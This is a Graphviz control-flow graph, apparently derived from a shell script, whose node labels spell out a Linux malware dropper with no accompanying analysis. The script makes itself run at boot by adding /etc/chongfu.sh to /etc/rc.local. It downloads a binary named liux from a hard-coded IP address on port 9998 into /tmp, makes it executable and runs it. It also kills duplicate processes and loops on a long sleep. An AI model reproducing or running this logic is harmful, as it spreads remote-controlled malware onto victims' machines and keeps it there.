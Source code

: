 digraph {
12 [label=" cat /etc/rc.local"];
16 [label=" grep /etc/chongfu.sh"];
20 [label=" grep -v grep"];
27 [label=" echo "];
31 [label=" echo sh /etc/chongfu.sh & "];
41 [label=" \[ 1 \]"];
52 [label=" ps aux"];
56 [label=" grep /tmp/liux"];
60 [label=" grep -v grep"];
65 [label=" wc -l"];
73 [label=" \[ $Centos_sshd_killn -eq 0 \]"];
87 [label=" \[ ! -f /tmp/liux \]"];
99 [label=" \[ -f /usr/bin/wget \]"];
107 [label=" cp /usr/bin/wget ."];
112 [label=" chmod +x wget"];
117 [label=" ./wget -P /tmp/ http://60.250.99.131:9998/liux "];
125 [label=" chmod 755 /tmp/liux"];
130 [label=" rm wget -rf"];
136 [label=" echo No wget"];
142 [label=" /tmp/liux"];
147 [label=" \[ $Centos_sshd_killn -gt 1 \]"];
164 [label=" ps aux"];
168 [label=" grep liux"];
172 [label=" grep -v grep"];
177 [label=" awk {print $2}"];
186 [label=" $Centos_sshd_killn-1"];
194 [label=" \[ $Centos_sshd_killn -eq 1 \]"];
203 [label=" continue"];
206 [label=" kill -9 $killed"];
215 [label=" echo "];
224 [label=" ps aux"];
228 [label=" grep /tmp/liux"];
232 [label=" grep -v grep"];
237 [label=" wc -l"];
245 [label=" \[ $Centos_ssh_killn -eq 0 \]"];
259 [label=" \[ ! -f /tmp/liux \]"];
271 [label=" \[ -f /usr/bin/wget \]"];
279 [label=" cp /usr/bin/wget ."];
284 [label=" chmod +x wget"];
289 [label=" ./wget -P /tmp/ http://60.250.99.131:9998/liux "];
297 [label=" chmod 755 /tmp/liux"];
302 [label=" rm wget -rf"];
308 [label=" echo No wget"];
314 [label=" /tmp/liux"];
319 [label=" \[ $Centos_ssh_killn -gt 1 \]"];
336 [label=" ps aux"];
340 [label=" grep liux"];
344 [label=" grep -v grep"];
349 [label=" awk {print $2}"];
358 [label=" $Centos_ssh_killn"];
366 [label=" \[ $Centos_ssh_killn -eq 1 \]"];
375 [label=" continue"];
378 [label=" kill -9 $killed"];
387 [label=" echo "];
392 [label=" sleep 999"];
12 -> 16;
16 -> 20;
20 -> 27;
20 -> 31;
20 -> 41;
27 -> 41;
392 -> 41;
31 -> 41;
41 -> 52;
52 -> 56;
56 -> 60;
60 -> 65;
65 -> 73;
73 -> 87;
73 -> 147;
87 -> 99;
87 -> 142;
99 -> 107;
99 -> 136;
99 -> 142;
107 -> 112;
112 -> 117;
117 -> 125;
125 -> 130;
136 -> 142;
130 -> 142;
147 -> 164;
147 -> 215;
147 -> 224;
164 -> 168;
168 -> 172;
172 -> 177;
194 -> 186;
194 -> 203;
194 -> 206;
194 -> 224;
206 -> 186;
206 -> 224;
203 -> 186;
203 -> 224;
177 -> 186;
186 -> 194;
142 -> 224;
215 -> 224;
224 -> 228;
228 -> 232;
232 -> 237;
237 -> 245;
245 -> 259;
245 -> 319;
259 -> 271;
259 -> 314;
271 -> 279;
271 -> 308;
271 -> 314;
279 -> 284;
284 -> 289;
289 -> 297;
297 -> 302;
308 -> 314;
302 -> 314;
319 -> 336;
319 -> 387;
319 -> 392;
336 -> 340;
340 -> 344;
344 -> 349;
378 -> 358;
378 -> 392;
375 -> 358;
375 -> 392;
366 -> 358;
366 -> 375;
366 -> 378;
366 -> 392;
349 -> 358;
358 -> 366;
314 -> 392;
387 -> 392;
}
